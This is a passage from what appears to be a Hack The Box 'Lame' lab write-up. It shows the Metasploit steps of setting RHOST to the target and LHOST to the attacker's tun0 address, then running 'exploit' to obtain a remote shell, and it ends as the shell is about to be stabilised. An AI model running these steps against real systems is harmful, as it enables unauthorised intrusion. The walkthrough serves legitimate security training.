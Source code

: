 We have to set up `RHOST` and `what is important` - we have to set up `LHOST` as we are connected to the `Hack The Box` through VPN.

To do this type:

```
set RHOST {target ip}
```

and 

```
set LHOST {your tun0 ip}
```

![Metasploit](./Screenshots/lamemetasploit9.png)

If you don't know your `tun0` ip, type `ifconfig` or `ip a` in new tab.

When everything is set, type:

```
exploit
```

![Metasploit](./Screenshots/lamemetasploit10.png)

We have a `shell`.

Let's stabilize it.

